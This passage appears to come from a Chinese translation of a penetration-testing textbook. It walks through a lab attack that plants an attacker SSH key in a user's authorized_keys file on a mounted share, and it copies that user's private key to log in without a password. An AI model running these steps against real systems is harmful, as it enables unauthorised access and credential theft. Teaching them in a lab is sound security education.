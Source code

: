 示例 8-10. 生成新的 SSH 密钥对

```
root@kali:~# **ssh-keygen**
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa):
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /root/.ssh/id_rsa.
Your public key has been saved in /root/.ssh/id_rsa.pub.
The key fingerprint is:
26:c9:b7:94:8e:3e:d5:04:83:48:91:d9:80:ec:3f:39 root@kali
The key's randomart image is:
+--[ RSA 2048]----+
| . o+B .         |
--*snip*--
+-----------------+
```

首先，我们使用`ssh-keygen`在我们的 Kali 机器上生成一个密钥。默认情况下，我们的新公钥会写入*/root/.ssh/id_rsa.pub*，而私钥会写入*/root/.ssh/id_rsa*。我们要将我们的公钥添加到 Ubuntu 上*georgia*的*authorized_keys*文件中。

接下来，让我们将新生成的公钥追加到*georgia*的*authorized_keys*文件中。使用`cat`命令将*/root/.ssh/id_rsa.pub*文件的内容输出，并将其追加到*georgia*的*authorized_keys*文件中。

```
root@kali:~# **cat ~/.ssh/id_rsa.pub >> /tmp/mount/.ssh/authorized_keys**
```

我们现在应该能够以*georgia*身份通过 SSH 连接到 Linux 目标。让我们试试看。

```
root@kali:~# **ssh georgia@192.168.20.11**
georgia@ubuntu:~$
```

这个方法很有效。现在我们可以成功地通过公钥认证与 Linux 目标进行身份验证。

我们也可以通过将*georgia*的密钥复制到 Kali 机器来获得访问权限。为此，我们首先删除我们创建的 SSH 身份。

```
root@kali:/tmp/mount/.ssh# **rm ~/.ssh/id_rsa.pub**
root@kali:/tmp/mount/.ssh# **rm ~/.ssh/id_rsa**
```

现在，我们将*georgia*的私钥（*id_rsa*）和公钥（*id_rsa.pub*）复制到 Kali 上 root 的*.ssh*目录，并使用`ssh-add`命令将身份添加到认证代理中，然后再尝试通过 SSH 连接到 Linux 目标。

```
root@kali:/tmp/mount/.ssh# **cp id_rsa.pub ~/.ssh/id_rsa.pub**
root@kali:/tmp/mount/.ssh# **cp id_rsa ~/.ssh/id_rsa**
root@kali:/tmp/mount/.ssh# **ssh-add**
Identity added: /root/.ssh/id_rsa (/root/.ssh/id_rsa)
root@kali:/tmp/mount/.ssh# **ssh georgia@192.168.20.11**
Linux ubuntu 2.6.27-7-generic #1 SMP Fri Oct 24 06:42:44 UTC 2008 i686
georgia@ubuntu:~$
```

同样，我们通过操控 SSH 密钥成功访问目标。我们从能够读取和写入*georgia*的主目录文件开始。现在我们已经以*georgia*用户的身份获得了 Linux 系统的 shell，而无需密码。

## 总结

在本章中，我们能够将第五章中收集的信息与第六章中发现的漏洞结合起来，利用多个漏洞对 Windows XP 和 Linux 目标进行攻击。我们使用了多种技术，包括攻击配置错误的 Web 服务器、利用后门软件、利用对敏感文件的访问控制不当、利用底层系统的漏洞以及利用第三方软件中的问题。

既然我们已经成功获得了系统的立足点，在下一章中，我们将开始破解我们在系统上找到的密码。
